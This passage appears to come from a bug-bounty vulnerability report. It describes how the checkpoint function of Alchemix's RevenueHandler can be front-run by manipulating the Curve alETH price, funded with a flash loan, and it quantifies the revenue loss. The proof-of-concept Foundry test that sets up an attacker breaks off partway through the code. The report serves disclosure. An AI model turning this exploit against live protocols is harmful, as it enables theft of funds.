 With the exchange rate of `10 ETH` == `10.12 alETH` used in the tests, we prove in a PoC attached to this report that losses are ~1.14% of the protocol's revenue every epoch.

Currently, the exchange rate in Curve is `10 ETH` == `11.02 alETH`.

Exploiting this attack vector in current market conditions for a `10 ETH` protocol revenue leads to losing close to **~9.26% of protocol revenue** (*1.02 alETH*). 
> The protocol should receive *11.02 alETH* but only receives *10 alETH*.

The economic damage of this attack vector keeps increasing every time the price of *alETH* decreases.

## Requirements

Anyone can call `RevenueHandler.checkpoint()` so flash loans can be used to fund the attack. No capital or permissions are required to execute it.

## Impact Details
Loss of funds.



## Proof of Concept

We modified your current `testCheckpointETH()` in `alchemix-v2-dao/src/test/RevenueHandler.t.sol`, adding the price manipulation before and after the checkpoint, to demonstrate the impact of the exploit.

Remember to run the code with the correct block number (the one used in your tests: 17133822)

We run the test executing:
```
forge test --fork-url https://eth-mainnet.alchemyapi.io/v2/{API_KEY} --match-test testSlippageCheckpointETH --fork-block-number 17133822 -vv
```
> Replace {API_KEY} with your API key.

The code for the test:
```javascript
    function testSlippageCheckpointETH() external {

        address[] memory alethCrvTokenIds = new address[](2);
        alethCrvTokenIds[0] = address(weth); // eth
        alethCrvTokenIds[1] = aleth;

        CurveEthPoolAdapter alethCpa = new CurveEthPoolAdapter(alethcrv, alethCrvTokenIds, address(weth));

        revenueHandler.addRevenueToken(address(weth));
        revenueHandler.setDebtToken(address(weth), aleth);
        revenueHandler.setPoolAdapter(address(weth), address(alethCpa));

        uint256 revAmt = 10e18;
        _accrueRevenue(address(weth), revAmt);

        // --------------------------------------------------------------------------
        // | Attack starts: Manipulate price pool by front-running the checkpoint() |
        // --------------------------------------------------------------------------

        // Get address of attacker
        address attacker = address(0x123);
        
        // Fund attacker
        uint256 inputAmount = 1500e18;
        deal(attacker,inputAmount);
        
        // Record attacker's ETH balance
```